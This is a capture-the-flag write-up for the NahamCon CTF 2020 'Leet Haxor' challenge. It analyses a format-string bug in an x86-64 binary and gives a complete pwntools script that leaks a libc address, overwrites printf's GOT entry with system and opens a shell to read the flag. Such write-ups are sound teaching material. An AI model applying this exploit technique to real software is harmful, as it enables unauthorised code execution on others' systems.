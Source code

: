 # NahamCon CTF 2020

## Leet Haxor

> 200
>
> 4r3 y0u 4s l33t 4s y0u s4y y0u 4r3??? 
>
> Connect here:</br>
> `nc jh2i.com 50022`</br>
>
> [`leet_haxor`](leet_haxor)

Tags: _pwn_ _x86-64_ _format-string_


## Summary

Format string exploit challenge with some constraints, infinite free rides, and a guess.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE/Partial RELRO; easy ROP, easy GOT.

    
### Decompile with Ghidra

```c
  puts("Mode [0]:l33tify | [1]:unl33tify | [?]:exit");
  __isoc99_scanf(&DAT_00400c54,&local_7e);
  while ((local_7e == '0' || (local_7e == '1'))) {
    getchar();
    puts("Insert text (Max. 100 chrs):");
    fgets(local_78,100,stdin);
    if (local_7e == '0') {
      l33tify(local_78);
    }
    else {
      unl33tify(local_78);
    }
    puts("Mode [0]:l33tify | [1]:unl33tify | [?]:exit");
    __isoc99_scanf(&DAT_00400c54,&local_7e);
  }
```

`main` loops, prompting `Mode [0]:l33tify | [1]:unl33tify | [?]:exit`, then after selecting `0` or `1`, prompts for up to 100 characters, then calls `l33tify` or `unl33tify` based on whether `0` or `1` was selected.  Nothing to see here.

![](l33tify.png)

The `printf` at line 49 is the _first_ venerability.  However the code above will mangle any format-string exploit if there's a matching character.

![](unl33tify.png)

The `printf` at line 40 is the _second_ venerability.  And like `l33tify` above, there is code that will mess with your exploit string.

Fortunately, it's really not that bad.

Using `%p` to leak libc will not be impacted by `l33tify`.  Like `p`, other format-string attack characters such as `h`, `n`, and `c` have also been spared.

> Normally, I'd use the libc leaks to find the version of libc the remote server is using, but instead I opted to guess.  Using strings on the challenge binary, `GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0` was betrayed.  I took a guess and was right.

Setting a breakpoint just before `printf` in `l33tify` and looking at the stack we find a libc leak, way down at parameter 33:

```
0x00007fffffffe470│+0x0000: 0x00007fffffffe620  →  0x0000000000000001 ← $rsp
0x00007fffffffe478│+0x0008: 0x00007fffffffe4d0  →  0x0000000a34343434 ("4444\n"?)
0x00007fffffffe480│+0x0010: 0x0000000000000000
0x00007fffffffe488│+0x0018: 0x00000006f7a62bcd
0x00007fffffffe490│+0x0020: 0x0000000000000000
0x00007fffffffe498│+0x0028: 0x0000000000000000
0x00007fffffffe4a0│+0x0030: 0x00007fffffffe540  →  0x0000000000400a90  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe4a8│+0x0038: 0x0000000000400a2a  →  <main+149> jmp 0x400a38 <main+163>
0x00007fffffffe4b0│+0x0040: 0x00007fffffffe628  →  0x00007fffffffe824  →  "/pwd/datajerk
0x00007fffffffe4b8│+0x0048: 0x00000001f7ffe710
0x00007fffffffe4c0│+0x0050: 0x0000000000000000
0x00007fffffffe4c8│+0x0058: 0x000a21713a300000
0x00007fffffffe4d0│+0x0060: 0x0000000a34343434 ("4444\n"? ← $rdx, $rsi, $rdi
0x00007fffffffe4d8│+0x0068: 0x00000000756e6547 ("Genu"?)
0x00007fffffffe4e0│+0x0070: 0x0000000000000009
0x00007fffffffe4e8│+0x0078: 0x00007ffff7dd7660  →  <dl_main+0> push rbp
0x00007fffffffe4f0│+0x0080: 0x00007fffffffe558  →  0x00007fffffffe628  →  0x00007fffffffe824  
0x00007fffffffe4f8│+0x0088: 0x0000000000f0b5ff
0x00007fffffffe500│+0x0090: 0x0000000000000001
0x00007fffffffe508│+0x0098: 0x0000000000400add  →  <__libc_csu_init+77> add rbx, 0x1
0x00007fffffffe510│+0x00a0: 0x00007ffff7de59a0  →  <_dl_fini+0> push rbp
0x00007fffffffe518│+0x00a8: 0x0000000000000000
0x00007fffffffe520│+0x00b0: 0x0000000000400a90  →  <__libc_csu_init+0> push r15
0x00007fffffffe528│+0x00b8: 0x0000000000400640  →  <_start+0> xor ebp, ebp
0x00007fffffffe530│+0x00c0: 0x00007fffffffe620  →  0x0000000000000001
0x00007fffffffe538│+0x00c8: 0x7e99182cebfbc400
0x00007fffffffe540│+0x00d0: 0x0000000000400a90  →  <__libc_csu_init+0> push r15
0x00007fffffffe548│+0x00d8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

> The 6th parameter starts at `$rsp`, then count down (parameters 1-5 are in registers).  Or just test until you get a match.  You do have infinite retries.

We also need to know what parameter our format string is located at, again starting from the top and counting down you'll notice `4444` at parameter 18.  That `4444` was actually entered as `AAAA`, but it got _l33tified_ (lamified).

And that is all the information we need.


## Exploit

### Attack Plan

1. First Pass: Leak libc address
2. Second Pass: GOT `printf` -> `system`
3. Final Pass: Get a shell, get the flag


### Setup

```python
#!/usr/bin/python3

from pwn import *

#p = process('./leet_haxor')
p = remote('jh2i.com', 50022)

binary = ELF('leet_haxor')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64')
offset = 18
```

_Guessing_ Ubuntu 18.04, I just used an 18.04 container with the native libc.

The `offset` of `18` was determined above in the _Analysis_ section.  This will be required by the pwntools `fmtstr_payload` function.



### First Pass: Leak libc address

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('0')
p.recvuntil('Insert text (Max. 100 chrs):')
p.sendline('%33$p')
p.recvline()

__libc_start_main = int(p.recvline().strip(),16) - 231
print('__libc_start_main',hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
print('baselibc',hex(baselibc))
libc.address = baselibc
```

The 33rd parameter to `printf` will leak a libc address (`__libc_start_main+231`) from the stack:

```
0x00007fffffffe548│+0x00d8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

After that, it's easy to compute the libc base address.


### Second Pass: GOT `printf` -> `system`

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('0')
p.recvuntil('Insert text (Max. 100 chrs):')

payload = fmtstr_payload(offset,{binary.got['printf']:libc.symbols['system']})

badchars = b'AaBbEeGgIiOoSsTtZz\r\n'
if any(x in payload for x in badchars):
    print("badchar in payload! exiting!\n")
    sys.exit(1)

p.sendline(payload)
```

pwntools provides very nice format-string functions; calling `fmtstr_payload` with our `offset`, and the addresses to GOT `printf` and libc `system` is all we need, however there's the possibility, due to ASLR, that one of the address could have a "badchar"; to avoid failure, check first.

> I probably should have labeled `badchars` as `l33tchars` for readability.  The `\r\n` are for `fgets`.


### Final Pass: Get a shell, get the flag

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('1')
p.recvuntil('Insert text (Max. 100 chrs):')
p.sendline("/bin/sh")
```

Now that `printf` is `system`, just send `/bin/sh`, however this time use `unl33tify` to avoid having the string mangled.


Output:

```bash
# ./exploit.py
[+] Opening connection to jh2i.com on port 50022: Done
[*] '/pwd/datajerk/nahamconctf2020/leet_haxor/leet_haxor'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
__libc_start_main 0x7f0c3bdddab0
baselibc 0x7f0c3bdbc000
[*] Switching to interactive mode

$ ls
bin  bin.c  flag.txt
$ cat flag.txt
flag{w0w_y0u_4r3_4_l33t_h@x0r}
```
